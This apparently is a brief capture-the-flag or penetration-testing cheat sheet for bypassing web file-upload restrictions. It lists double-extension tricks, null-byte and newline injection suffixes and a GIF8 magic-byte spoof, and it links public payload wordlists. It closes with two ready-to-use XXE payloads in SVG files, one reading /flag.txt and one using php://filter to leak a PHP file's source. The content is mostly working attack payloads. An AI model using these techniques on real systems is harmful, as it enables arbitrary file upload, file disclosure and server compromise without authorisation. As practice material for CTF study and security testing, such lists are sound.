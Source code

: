 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst


https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt


##### Double extension 
`.jpg.php`


##### Reverse Double Extension

`.php.jpg`

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

`GIF8`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```